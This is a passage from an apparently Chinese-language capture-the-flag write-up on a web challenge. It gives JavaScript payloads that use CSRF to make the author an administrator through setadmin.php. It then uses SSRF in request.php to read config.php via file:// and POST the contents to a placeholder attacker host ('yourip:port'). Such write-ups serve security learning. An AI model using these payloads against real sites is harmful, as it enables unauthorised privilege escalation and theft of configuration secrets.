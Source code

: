 可以看到有个表单，用来设置管理员

```html
      <form action="/setadmin.php" method="POST">
        <div class="form-group">
          <label for="username">Username</label>
          <input type="text" name="username" class="form-control" id="username" aria-describedby="username" placeholder="Username">
        </div>

        <button class="btn btn-primary">Give Admin Access</button>
      </form>
```

接下来，准确地说是利用CSRF把我们自己弄成管理员。

```javascript
//管理员执行
a=new XMLHttpRequest();
a.open('POST','setadmin.php',false);
a.setRequestHeader('Content-type','application/x-www-form-urlencoded');
a.send('username=用户名');
```

同样编码后换一下原来的就行

然后重新登录，发现...

![15](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/744b7584d040c1cd8e841382107e92cc.png)

然后改XFF啥的也没用，说明我被骗了。重新注册，读管理员页面的request.php。得到又一个表单

```html
<form action="/request.php" method="POST">
    <div class="form-group">
      <label for="url">URL</label>
      <textarea name="url"class="form-control" id="url"aria-describedby="url"placeholder="URL" rows="10"><textarea>
    </div>
    <button class="btn btn-primary">SendRequest</button>
</form>
```

然后这里存在SSRF（因为提示flag3在redis里，肯定要用ssrf来打），用file协议读config.php源码（robots.txt也有提示）

```javascript
a=new XMLHttpRequest();
a.open('POST','request.php',false);
a.setRequestHeader('Content-type','application/x-www-form-urlencoded');
a.send('url=file:///var/www/html/config.php');
b=new XMLHttpRequest();
b.open('POST','http://yourip:port/',false);
b.setRequestHeader('Content-type','application/x-www-form-urlencoded');
b.send('data='+a.responseText);
```

同样btoa()编码后换一下前面的paylaod

